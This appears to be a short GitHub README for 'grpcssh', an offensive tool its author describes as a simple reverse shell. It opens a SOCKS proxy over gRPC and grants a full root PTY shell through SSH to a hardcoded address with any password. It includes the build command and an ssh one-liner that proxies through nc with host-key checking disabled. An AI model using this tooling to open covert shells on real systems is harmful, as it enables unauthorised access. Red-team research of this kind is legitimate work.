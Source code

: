 # `grpcssh`
```
better explained over at https://tishina.in/ops/grpcssh
an extension over grpc-ssh-socks. this can be considered a simple reverse shell. on connect,
a socks proxy is opened by the server. connecting over ssh to a hardcoded ip address with
an arbitrary password grants a full pty shell.

for the pty shell, full credit goes to https://gist.github.com/jpillora/
here it is, kind of working:
```
![image](https://github.com/zimnyaa/grpcssh/assets/502153/b3e4fce7-8ba4-46ce-9cff-d62fa4f7290f)

```
~/grpcssh$ make 
to build this even more abominable thing. 
~/grpcssh$ ssh -o ProxyCommand="nc -x localhost:1080 %h %p" -o "UserKnownHostsFile=/dev/null" root@1.1.1.1
to get a shell.
```
